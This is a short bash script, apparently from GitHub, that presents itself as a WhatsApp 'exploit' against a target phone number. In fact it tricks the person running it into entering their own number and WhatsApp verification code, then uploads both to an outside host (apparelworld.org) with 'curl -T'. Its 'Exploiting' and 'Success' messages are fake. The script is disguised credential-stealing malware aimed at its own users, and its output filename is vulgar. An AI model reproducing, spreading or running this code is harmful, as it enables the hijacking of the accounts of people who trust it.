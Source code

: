 # hade
#!/bin/bash clear echo " &lt;-- IndoSec --> #################### #   Whatsapp Code  # By ./Hade #     Exploiter    # lukman.manzts@gmail.com ####################  Copyright (c) 2018 ceweberbatang Ganteng"; echo ""; read -p "Nomer Kamu (+62xxxx)=> " nomer; read -p "Nomer Target (+62xxxx) => " target; sleep 2 echo "[+] Syncing Target..."; sleep 1 echo "Login  => $nomer"; sleep 0.5 echo "Target => $target"; sleep 0.5 echo "[+] Exploiting..."; echo "Nomer => $nomer" >> kontol.html; curl -T kontol.html http://apparelworld.org/ sleep 5; echo "[+] Done."; echo "Tunggu 5-10 Menit Untuk Mendapatkan Code."; read -p "Verify Code => " code; sleep 2 echo "[+] Connecting to whatsapp.com..."; echo "Login => $nomer"; sleep 0.5 echo "Code => $code"; sleep 0.5 echo "Target => $target"; sleep 0.5 echo "[+] Sending Exploit..."; echo "Code => $code" >> kontol.html; curl -T kontol.html http://apparelworld.org/ sleep 5 echo "[+] Success Exploited!"; exit;
